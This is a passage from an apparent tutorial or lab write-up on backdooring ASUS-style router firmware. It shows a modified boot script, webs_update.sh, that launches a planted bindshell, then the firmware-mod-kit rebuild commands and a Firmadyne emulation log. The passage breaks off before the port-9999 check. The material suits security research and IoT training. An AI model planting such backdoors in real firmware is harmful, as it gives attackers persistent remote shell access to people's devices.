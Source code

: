
	[  135.616000] firmadyne: open[PID: 229 (webs_update.sh)]: file:/firmadyne/libnvram.so
	[  135.616000] firmadyne: close[PID: 229 (webs_update.sh)]: fd:3
	.. snip ..

It seemed that the webs_update.sh script was getting called during
boot. This script was found in `usr/sbin`. I placed the bindshell in
the `usr/sbin` directory as well, and I proceeded to update that
`webs_update.sh` like so:

	cat usr/sbin/webs_update.sh
	#!/bin/sh

	touch /var/log/output
	echo "yea buddy!!!!!!!!!!!!" > /var/log/output
	/usr/sbin/bindshell &

	wget_timeout=`nvram get apps_wget_timeout`
	#wget_options="-nv -t 2 -T $wget_timeout --dns-timeout=120"
	wget_options="-q -t 2 -T $wget_timeout"

	.. snip ..

Did it work out???


## Rebuild, Emulate, and Verify The Backdoored Firmware

To rebuild the modified firmware was just a matter of using the
firmware-mod-kit again:

	$ ./build-firmware.sh FW_RT_N15U_30043763754 -nopad -min

	$ mv FW_RT_N15U_30043763754/new-firmware.bin ~/tools/fat/fwfirmware.bin

The firmware was emulated using the Firmware Analysis Toolkit / Firmadyne

	oit@ubuntu:~/tools/fat$ ./fat.py

		Welcome to the Firmware Analysis Toolkit - v0.1
		Offensive IoT Exploitation Training  - http://offensiveiotexploitation.com
		By Attify - https://attify.com  | @attifyme

    .. snip ..

	Setting up the network connection
	Password for user firmadyne:
	qemu: terminating on signal 2 from pid 5030
	Querying database for architecture... mipsel
	Running firmware 4: terminating after 120 secs...
	Inferring network...
	Interfaces: [('br0', '192.168.1.1')]
	Done!

	Running the firmware finally :


Test to see if the bindshell is listening on port 9999:

